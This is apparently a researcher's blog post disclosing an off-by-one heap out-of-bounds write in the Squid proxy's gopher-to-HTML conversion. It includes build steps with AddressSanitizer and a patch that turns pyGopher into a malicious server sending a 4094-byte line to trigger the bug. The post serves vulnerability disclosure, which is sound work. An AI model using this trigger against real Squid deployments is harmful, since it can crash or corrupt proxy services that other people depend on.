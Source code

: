 ```yaml
---
layout: post
title:  "squid-cache proxy Out of Bound Write in Gopher"
date:   2019-09-27 08:00:00 +0800
categories: security
---
```


Earlier this year I was randomly reading the [squid source code][squidhome] on [github](https://github.com/squid-cache/squid/) and I saw a bug in the `gopherToHTML(GopherStateData * gopherState, char *inbuf, int len)` function.

`inbuf` is the untrusted response from a gopher server

When this response is processed, in the while loop, the first newline '\n' character is search with `memchr`.

the problem is if the '\n' is at exactly `inbuf[4095]` then later in the code `llen` will be 4095.

at this point squid will do a 

`line[llen + 1] = '\0';`

which is at index 4096, out of bound of the line buffer.

The buffer is of size 4096, so index 4096 is out of bound.

# How to trigger

Both version 4.8 stable and master are ok

```
# env is Ubuntu 18.04
wget http://www.squid-cache.org/Versions/v4/squid-4.8.tar.xz
tar xfv squid-4.8.tar.xz
cd squid-4.8
./configure --disable-shared CFLAGS="-fsanitize=address -ggdb" CXXFLAGS="-fsanitize=address -ggdb" LDFLAGS="-fsanitize=address"

make -j4
make install

git clone https://github.com/puckipedia/pyGopher.git

#patch pyGopher (we will use pyGopher as a malicious server)

===========
diff of the patch:
===========


diff --git a/config.py b/config.py
index 5687b6a..1ada112 100644
--- a/config.py
+++ b/config.py
@@ -12,8 +12,8 @@ class ExceptionEntry():
 		raise Exception("ExceptionEntry called!")
 
 class GopherConfig(gopher.DefaultConfig):
-	host = "83.84.127.137"
-	port = 7070
+	host = "127.0.0.1"
+	port = 70
 	default = "/"
 
 	def __init__(self):
diff --git a/gopher/getters.py b/gopher/getters.py
index a6c2765..6d7e8de 100644
--- a/gopher/getters.py
+++ b/gopher/getters.py
@@ -5,7 +5,8 @@ class Getter(object):
 		pass
 	
 	def output_data(self, socket, extra_info):
-		socket.sendall("\r\n.\r\n")
+		resp = 'A'*4094+'\n'+'\r\n.\r\n'
+		socket.sendall(resp.encode('utf-8'))
 
 	def set_default(self, host, port):
 		pass
@@ -20,10 +21,10 @@ class MenuGetter(Getter):
 		for item in self.menu_data:
 			item.set_default(host, port)
 
-	def output_data(self, socket, extra_info):
-		for item in self.menu_data:
-			socket.sendall(item.make_line())
-		socket.sendall(".\r\n".encode("utf-8"))
+#	def output_data(self, socket, extra_info):
+#		for item in self.menu_data:
+#			socket.sendall(item.make_line())
+#		socket.sendall(".\r\n".encode("utf-8"))
 
 class TextFileGetter(Getter):
 	file_path = ""
@@ -31,14 +32,14 @@ class TextFileGetter(Getter):
 	def __init__(self, path):
 		self.file_path = path
 
-	def output_data(self, socket, extra_info):
-		file = open(self.file_path, 'r')
-		for line in file:
-			if line[0] == ".":
-				socket.sendall(("."+line).encode("UTF-8"))
-			else:
-				socket.sendall(line.encode("UTF-8"))
-		socket.sendall("\r\n.\r\n".encode("UTF-8"))
+#	def output_data(self, socket, extra_info):
+#		file = open(self.file_path, 'r')
+#		for line in file:
+#			if line[0] == ".":
+#				socket.sendall(("."+line).encode("UTF-8"))
+#			else:
+#				socket.sendall(line.encode("UTF-8"))
+#		socket.sendall("\r\n.\r\n".encode("UTF-8"))
 
 class ExecutableGetter(Getter):
 	file_path = ""
@@ -48,28 +49,28 @@ class ExecutableGetter(Getter):
 		self.file_path = path
 		self.binary = is_binary
 
-	def output_data(self, socket, extra_data):
-		proc = Popen([self.file_path], stdout=PIPE)
-		stdout = proc.stdout
-
-		for line in stdout:
-			if line[0] == "." and not self.binary:
-				encoded_line = line.decode("UTF-8")
-				socket.sendall(("."+encoded_line).encode("UTF-8"))
-			else:
-				socket.sendall(line)
-		if not self.binary:
-			socket.sendall("\r\n.\r\n".encode("UTF-8"))
+#	def output_data(self, socket, extra_data):
+#		proc = Popen([self.file_path], stdout=PIPE)
+#		stdout = proc.stdout
+#
+#		for line in stdout:
+#			if line[0] == "." and not self.binary:
+#				encoded_line = line.decode("UTF-8")
+#				socket.sendall(("."+encoded_line).encode("UTF-8"))
+#			else:
+#				socket.sendall(line)
+#		if not self.binary:
+#			socket.sendall("\r\n.\r\n".encode("UTF-8"))
 class BinaryFileGetter(Getter):
 	file_path = ""
 
 	def __init__(self, path):
 		self.file_path = path
 
-	def output_data(self, socket, extra_info):
-		file = open(self.file_path, 'rb')
-		data = file.read(1024)
-		while len(data) > 0:
-			socket.sendall(data)
-			data = file.read(1024)
-
+#	def output_data(self, socket, extra_info):
+#		file = open(self.file_path, 'rb')
+#		data = file.read(1024)
+#		while len(data) > 0:
+#			socket.sendall(data)
+#			data = file.read(1024)
+#

# edit /etc/lynx/lynx.cfg to use squid as gopher proxy:
gopher_proxy:http://127.0.0.1:3128/


./src/squid -f src/squid.conf.default

# browse with lynx to gopher://127.0.0.1:70


```

in the squid window you will see the bug detected by address sanitizer:

![asan squid](/assets/squid_asan.png)

# Why you posted?

I shared the bug with squid devs the 25th of June, but I never got a official reply. 
Maybe someone else is interested in reading the report, or the bug, or how to trigger, or to patch it himself, since the patch seems not very hard.

I was interested in this hackerone program [https://hackerone.com/ibb-squid-cache](https://hackerone.com/ibb-squid-cache) but I doubt I will search for better bugs and try this program if the squid maintainer don't even reply (the hackerone bounty is only available AFTER you get it fixed in mainstream squid, but again if they don't reply, good luck).

[squidhome]: http://www.squid-cache.org/
